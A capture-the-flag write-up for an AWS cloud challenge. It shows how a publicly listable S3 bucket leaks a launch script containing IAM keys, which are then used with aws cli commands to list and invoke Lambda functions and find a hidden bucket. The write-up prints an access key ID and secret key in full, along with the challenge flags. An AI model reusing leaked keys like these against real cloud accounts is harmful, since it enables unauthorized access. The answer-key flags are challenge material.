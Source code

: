 # Aws Config
- The website is hosted on an S3 bucket with very verbose permissions. 
	- Publicly readable
	- Publicly listable
- Additionally, the source code for the lambda function being used and the launch script are publicly available to see because of this. They should have never been uploaded in the first place.
- We are going to use these facts to escalate privileges on the system

## Solution 1
- List out the contents of the S3 buckets to find the flag. 
- In the browser, using the URL 'http://spokane-ctf-iv-magic8ball.s3.us-west-2.amazonaws.com/' will list the contents.
- Within here, we can see then visit http://spokane-ctf-iv-magic8ball.s3.us-west-2.amazonaws.com/website/flag.txt. 
	- This will download the flag file. 
- Using the AWS cli to do the commands for us:
	- aws s3 ls s3://spokane-ctf-iv-magic8ball/website/
	- aws s3 cp s3://spokane-ctf-iv-magic8ball/website/flag.txt ./
	- cat flag
- Flag: SC4{What_1s_tH1s_Mast0don!?}

## Solution 2 
- The file 'launch.py' contains AWS IAM credentials for the script used to launch the website. 
- Download this file as we did before. 
- The variable ``AccessKeyId`` contains the access key id. Use this as the flag.
- Flag: AKIAUEWWLUKBRHXONOOO

## Challenge 3
- First, let's list out the lambda functions. The base command is 'aws lambda list-functions' with our region and credentials specified. 
	- AWS_ACCESS_KEY_ID="AKIAUEWWLUKBRHXONOOO" AWS_SECRET_ACCESS_KEY=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 aws lambda list-functions --region us-west-2
	- There's a function called 'flag3'. Let's execute that function. 
- Execute the lambda function:
	- Base command: ``aws lambda invoke`` with our credentials, region and function name specified. 
	- AWS_ACCESS_KEY_ID="AKIAUEWWLUKBRHXONOOO" AWS_SECRET_ACCESS_KEY=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 aws --region us-west-2 lambda invoke --function-name Flag3 outfile
- Within 'outfile' will be the flag. 
- Flag: SC4{0Nc3Y0uR_1n_tH3r2_N0_g01ng_bacK!}

## Challenge 4
- Using the credentials we obtained from before, we can VIEW all of the S3 buckets. 
- This can be done with the following command ``AWS_ACCESS_KEY_ID="AKIAUEWWLUKBRHXONOOO" AWS_SECRET_ACCESS_KEY=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 aws s3 ls``
- There is another bucket that we didn't see before: ``nathan-super-secret-bucket``
	- Within here, there is a file called ``flag.txt``. Open this file to read the flag. 
- Flag: SC4{PaperClipToAHouse!}
